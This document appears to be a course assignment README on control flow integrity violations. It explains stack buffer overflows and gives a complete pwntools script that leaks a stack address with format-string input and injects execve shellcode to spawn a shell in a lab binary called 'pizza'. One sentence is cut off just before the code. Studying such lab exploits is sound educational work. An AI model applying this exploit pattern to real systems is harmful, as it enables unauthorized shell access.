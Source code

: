# Control Flow Integrity Violation

The goal of this assignment is to write a python script using `pwntools` that executes the given program, leaks the stack offset, and spawns a shell. Through this exercise, we delve into the realm of control flow integrity violations, where unexpected inputs manipulate the program's execution flow, potentially leading to unauthorized access or unintended behavior.

In a previous class, we went into the concept of library injection, a method involving a loader program to run another program to load a library in a new thread. Dr. Reynolds highlighted a more direct approach to inject shellcode into vulnerable processes. This technique is based in providing unexpected input to a program, and thus altering the content of the instruction pointer register. By gaining control of the IP register, attackers gain the ability to manipulate the program's behavior at will. Although numerous methods exist to achieve this, we focused only on one: buffer overflow.

Dr. Reynolds explained that when a programmer permits writing more data into a buffer than its capacity, it leads to overwriting data higher up on the stack. This behavior typically results in undefined behavior or segmentation faults. However, attackers can exploit this vulnerability to their advantage. In a buffer overflow attack, attackers aim to overwrite the return address since it is eventually loaded into the IP register.

The approach for this assignment involves injecting shellcode directly into the buffer and ensuring that the IP register points to the beginning of this shellcode. Then later, the shellcode executes within the program, invoking functions like execve and replacing the current program with a shell accessible to the attacker.

To achieve this we need to meet three conditions:
1. We need to find out how many bytes after the beginning of the buffer are there before the return address.
2. We need to inject padding bytes plus a new return address, plus some shellcode.
3. We need to be able to predict at what address our shellcode will be so we can return to it.

# Requiered files and dependencies
- Install pwntools using the following commands on the terminal
  ```bash
  sudo apt-get update -y
  sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential -y
  sudo python3 -m pip install --upgrade pip -y
  sudo python3 -m pip install --upgrade pwntools -y
  ```
- Download the program we are going to take over. Victim program: [(Pizza)](https://github.com/tolvumadur/Reverse-Engineering-Class/blob/main/Spring24/Samples/binaries/pizza)
Note: The victim program was

```python3
#!/usr/bin/env python3

from pwn import *

def printStack(core):
    rsp = core.rsp
    stack_before_rsp = core.read(rsp - 22 * 8, 22 * 8)  # 22 elements before RSP
    stack_after_rsp = core.read(rsp, 22 * 8)  # 22 elements after RSP

    print("\nStack:")
    for i in range(0, len(stack_before_rsp), 8):
        address = rsp - 22 * 8 + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

    for i in range(0, len(stack_after_rsp), 8):
        address = rsp + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

getname_address = elf.symbols["getname"]

#print(hex(getname_address))

#print(shellcraft.amd64.linux.sh())
#exit()

shellcode = asm(shellcraft.amd64.linux.sh())



input1 = b"%p %p %p %p %p %p %p %p %p"



victim = process("./pizza")

# Recieve Welcome Message
print(str(victim.recvline(), "latin-1"))

# Send Name
victim.sendline(input1)
# Recieve stack address leak output
leak = str(victim.recvline(), "latin-1")
print(leak)

# Send numberof pizzas and recieve output
victim.sendline(b"10")
print(str(victim.recvline(), "latin-1"))

# SHELL CODE + "A"*?? + NEW RET_ADDRESS
retAddr = int(leak.split(" ")[7], 16) - 112
input2 = shellcode + b"A"*88 + retAddr.to_bytes(8, 'little')

victim.sendline(input2)
#print(str(victim.recvline(), "latin-1"))


victim.interactive()
#core = victim.corefile

#printStack(core)

# print(disasm(core.read(core.rip, 8)))
# print( core.read( core.rsp, 100))


exit()
```
